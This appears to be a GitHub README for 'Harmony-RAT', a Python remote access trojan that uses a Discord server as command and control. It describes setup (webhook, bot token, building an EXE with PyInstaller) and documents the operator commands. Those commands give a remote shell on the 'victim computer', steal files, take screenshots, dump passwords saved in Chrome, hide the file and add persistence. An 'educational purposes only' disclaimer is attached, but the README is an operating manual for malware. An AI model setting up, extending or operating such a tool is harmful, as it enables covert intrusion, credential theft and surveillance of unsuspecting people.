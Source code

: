 # Harmony-RAT
A simple RAT written in Python that uses Discord as it's C2 server.  


**Features**  
- Full Shell  
- Download files  
- Upload files  
- Screenshot    
- Dump credentials stored in Chrome  
- Persistence  
- And more...

# Disclaimer
All code provided in this repository is for educational purposes only.

# Usage  
**In your server you MUST create a text channel named 'check-in'  
and create a webhook that posts in the 'check-in' channel**

**You have to enter your Discord servers:**  
* Webhook URL
* Bot Token  
* ServerID  
* executable filename

**Into the script around line 32.**

**If you want an EXE use PyInstaller with harmony.py**  
___
Once harmony is executed it will create a new category on your server named with the hardware ID of the computer that executed it.  


3 channels will also be created in that category:  
&emsp;-main: Use this channel to send commands to the victim computer.  
&emsp;-info: On first run the script will dump useful system information in here.  
&emsp;-creds: On first run the script will dump URL, username and password saved in chrome into here.  

# Commands  

**Commands are used in the main channel in the target category**

To send shell commands prefix the command with '>'.  
&emsp;EX:  
```
> tasklist
# Execute command 'tasklist' and return list of running tasks.

> dir c:\Users\bob\Downloads
# Execute command 'dir c:\Users\bob\Downloads' and return list of files in bobs download directory.
```  
---  
**Non shell commands dont need the '>' symbol**  

---  
**kill**  
Kills process specified by pid.  

EX:  
```
kill 2654
```

---
**hide**  
Adds the hidden attribute to the harmony file.  

**unhide**  
Removes the hidden attribute from the harmony file.  

EX:
```
hide
```
```
unhide
```

---
**download**
Uploads file specified by path to server.

EX:
```
download c:\Users\bob\Downloads\nuclearlaunchcodes.txt
```

---
**upload**  
Downloads a file and saves it to c:\Users\Public\Downloads\

type upload and then drag the file you want to upload into discord and send the command.

EX:
![](https://github.com/EvanJosephL/Harmony-RAT/blob/main/pngs/upload_example.gif)  

----
**screenshot**  
Takes a screenshot and uploads it to the server.  

EX:
```
screenshot

# or

ss
```

---
**listWindows**
Lists all open windows.  

EX:
```
listWindows

# or

lw
```

---
**credDump**
Dumps all creds saved in Chrome.

EX:
```
credDump

# or

cred
```

---
**persistence**
Attempts to add persistence

EX:
```
persistence

# or

pt
```
